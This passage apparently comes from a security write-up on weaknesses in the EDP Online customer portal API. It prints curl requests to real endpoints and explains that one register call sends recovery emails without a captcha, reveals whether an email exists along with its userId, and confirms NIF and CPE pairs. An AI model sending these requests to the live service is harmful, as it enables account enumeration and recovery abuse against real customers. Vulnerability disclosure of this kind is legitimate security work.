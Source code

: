 ``` sh
curl -X POST \
  https://edponline.edp.pt/api/v2/auth/pwd-recover \
  -d '{
        "category": "auth",
        "operation": "pwd-recover",
        "Body": {
          "Operation": "request",
          "Nif": "VALID_NIF",
          "Email": "VALID_EMAIL",
          "RecaptchaResponse":"SOMETHING"
        }
      }'
```

However, there's another endpoint that looks like this:

``` sh
curl -X POST \
  https://edponline.edp.pt/api/v2/auth/register \
  -d '{
        "category": "auth",
        "operation": "register",
        "Body": {
          "Operation": "SendRecoveryEmail",
          "Nif": "VALID_NIF",
          "Email": "VALID_EMAIL",
        }
      }'
```

This one didn't require a captcha, and again only one of `VALID_NIF`, `VALID_EMAIL` was needed, meaning that it was a brute-forceable equivalent to the password reset endpoint.

It could also be used to check whether the email existed on their database, something not possible with the login form. The response also contained the `userId`.

### NIF + CPE Pair Enumeration

It was also possible to check whether a `NIF` + `CPE` pair existed with:

``` sh
curl -X POST \
  https://edponline.edp.pt/api/v2/auth/register \
  -d '{
        "category": "auth",
        "operation": "register",
        "Body": {
          "Operation": "GetUserValidation",
          "Target": "B2B",
          "Nif": "VALID_NIF",
          "DeliveryPoint":"VALID_CPE"
        }
      }'
```
